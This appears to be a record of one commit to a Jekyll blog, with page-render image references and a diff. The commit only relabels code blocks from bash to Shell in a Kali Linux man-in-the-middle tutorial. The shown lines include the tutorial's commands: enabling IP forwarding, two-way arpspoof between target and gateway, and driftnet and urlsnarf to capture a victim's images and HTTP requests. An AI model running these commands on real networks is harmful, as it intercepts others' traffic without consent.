

Before and after one commit to xDinomode/Dinosaurscode, a Jekyll site: the page built from _posts/2016-05-10-man-in-the-middle-in-kali-2.md, in a window 1280 px wide and 1400 px high, scrolled down 1297 px. Shown: the whole window at 90% size, without its empty margins (226-1280 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Syntax highlighting not working right

````diff
--- a/_posts/2016-05-10-man-in-the-middle-in-kali-2.md
+++ b/_posts/2016-05-10-man-in-the-middle-in-kali-2.md
@@ -19,12 +19,12 @@ Requirements are [Kali 2](https://www.kali.org)
 
 Run this command and if the output is 0 then we need to change it to 1
 
-```bash
+```Shell
 $ cat /proc/sys/net/ipv4/ip_forward
 ```
 <br>
 
-```bash
+```Shell
 $ echo 1 >> /proc/sys/net/ipv4/ip_forward
 ```
 
@@ -34,7 +34,7 @@ $ echo 1 >> /proc/sys/net/ipv4/ip_forward
 
 first
 
-```bash
+```Shell
 $ arpspoof -i eth0 targetiphere gatewayiphere
 ```
 
@@ -42,7 +42,7 @@ $ arpspoof -i eth0 targetiphere gatewayiphere
 
 and then in another terminal
 
-```bash
+```Shell
 $ arpspoof -i eth0 gatewayiphere targetiphere
 ```
 
@@ -52,7 +52,7 @@ $ arpspoof -i eth0 gatewayiphere targetiphere
 
 This will capture images opened by the victim and display them in the black box.
 
-```bash
+```Shell
 $ driftnet -i eth0
 ```
 
@@ -60,6 +60,6 @@ $ driftnet -i eth0
 
 ### Bonus: Run urlsnarf to capture http requests
 
-```bash
+```Shell
 $ urlsnarf -i eth0
 ```
````
